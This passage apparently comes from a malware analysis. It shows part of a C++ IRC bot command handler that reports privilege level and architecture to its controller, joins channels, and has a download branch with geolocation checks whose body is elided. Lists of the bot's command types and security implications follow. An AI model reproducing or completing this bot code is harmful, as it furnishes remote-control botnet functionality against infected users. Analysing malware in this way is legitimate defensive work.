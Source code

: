 ```cpp
                }
                
                // Admin status
                if (!strcmp(args[arg_idx + 1], "u")) {
                    sprintf(response, IsUserAnAdmin() ? "#ADMIN" : "#USER");
                }
                
                // Architecture
                if (!strcmp(args[arg_idx + 1], "a")) {
                    sprintf(response, 
                           VIBE::check_system_architecture() ? "#X64" : "#X86");
                }
                
                VIBE::format_and_send_irc_command(sock, 3, response, 0);
            }
            // Channel operations
            else if (!strcmp(args[arg_idx], "j")) {
                VIBE::format_and_send_irc_command(sock, 3, args[arg_idx + 1], 0);
            }
            // Download operations
            else if (arg_count >= 3 && 
                     !strcmp(args[arg_idx], "dsj") && 
                     VIBE::decode_url_parameters(args[arg_idx + 2])) {
                // Handle downloads with geolocation checks
                // and thread creation
            }
        }
    }
    return 1;
}
```

**Command Types**:
1. **System Commands**:
   - Self-deletion (rmrf)
   - System info queries (sj)
   - Architecture checks
   - Privilege levels

2. **Network Operations**:
   - Channel joining (j)
   - Downloads (dsj)
   - URL processing
   - Geolocation checks

3. **Thread Management**:
   - Worker creation
   - Download handlers
   - Resource tracking
   - State management

**Security Implications**:
- Remote control capability
- System modification
- Information gathering
- Privilege escalation
- Geolocation targeting
- Architecture-specific behavior
